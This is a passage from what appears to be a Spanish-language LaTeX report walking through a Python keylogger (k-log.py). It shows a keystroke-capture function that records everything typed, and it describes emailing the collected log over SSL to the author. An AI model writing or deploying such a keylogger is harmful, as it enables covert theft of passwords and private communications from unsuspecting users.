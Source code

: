 de esta función empezamos a crear el email llenando de parte de quien para quien el asunto y el contenido lo cual sera log  el que iremos llenando por ultimo usamos SSL para mandar el archivo cifrado el cual se vera de la siguiente manera. Ver Figura 1.

\begin{figure}
    \includegraphics[width=1\textwidth]{Images/emailsended.png}
    \caption{e-mail enviado por medio del programa.}
\end{figure}

Ahora veremos la función para capturar las teclas.

\begin{lstlisting}[language = Python, caption = funcion on\_key del archivo k-log.py]
# Funcion para capturar las teclas presionadas
def on_key(event):
    global log
    if(event.name == 'space'):
        log += ' '
    elif(event.name == 'enter'):
        log += '\n'
    elif(event.name == 'backspace'):
        log = log
    else:
        log += event.name
\end{lstlisting}

Aquí checamos que tecla se presiono en el sistema y en particular en lugar de pasar la designación de space para la barra espaciadora pasamos un espacio en blanco, para enter un salto de linea y para backspace simple mente lo ignoramos, de ahí en fuera capturamos absolutamente todo.

Ahora veremos la función para salvar en un archivo.

